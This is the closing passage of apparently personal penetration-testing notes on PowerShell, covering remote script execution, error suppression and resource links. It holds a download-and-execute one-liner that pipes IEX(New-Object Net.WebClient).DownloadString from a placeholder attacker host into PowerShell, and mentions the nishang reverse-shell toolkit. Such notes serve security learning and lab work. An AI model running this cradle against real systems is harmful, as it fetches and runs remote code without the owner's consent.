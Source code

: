 ```powershell
Get-Content "\\RemoteComp\Test-YourCode.ps1" | PowerShell -NoProfile -
```



...more to come!

```bash
echo IEX(New-Object Net.WebClient).DownloadString(http://$ip:$port/$script_file) | PowerShell -NoProfile -
```

### Silence PowerShell error messages

Many PowerShell cmdlets support the **`-ErrorAction SilentlyContinue`** attribute, which works similarly to using **`2>/dev/null`** in Linux. However, this only works for that cmdlet, not the entire one-liner if you pipe output or use semi-colons, etc. This can be shortened to **`-EA Silently`**.

### Unsorted...

PowerShell reverse shell and exploit scripts: `nishang` To learn how to use this tool check out Ippsec's video on youtube: [Ippsec:HacktheBox - Optimum](https://www.youtube.com/watch?v=kWTnVBIpNsE) TODO: look up this tool and give examples and description

## Resources

* [http://vcloud-lab.com/Microsoft](http://vcloud-lab.com/Microsoft)
* [http://go.microsoft.com/fwlink/?LinkID=135170](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about\_execution\_policies?view=powershell-7)
* [https://docs.microsoft.com/en-us/powershell/scripting/learn/ps101/02-help-system?view=powershell-7](https://docs.microsoft.com/en-us/powershell/scripting/learn/ps101/02-help-system?view=powershell-7)
* [https://www.pdq.com/powershell/](https://www.pdq.com/powershell/)
* TODO:
  * [https://0xdarkvortex.dev/index.php/2019/01/01/active-directory-penetration-dojo-ad-environment-enumeration-1/](https://0xdarkvortex.dev/index.php/2019/01/01/active-directory-penetration-dojo-ad-environment-enumeration-1/) - site down?
  * [https://activedirectorypro.com/powershell-commands/](https://activedirectorypro.com/powershell-commands/)&#x20;
* [https://www.infosecmatter.com/pure-powershell-infosec-cheatsheet/](https://www.infosecmatter.com/pure-powershell-infosec-cheatsheet/)



If you like this content and would like to see more, please consider [buying me a coffee](https://www.buymeacoffee.com/zweilosec)!
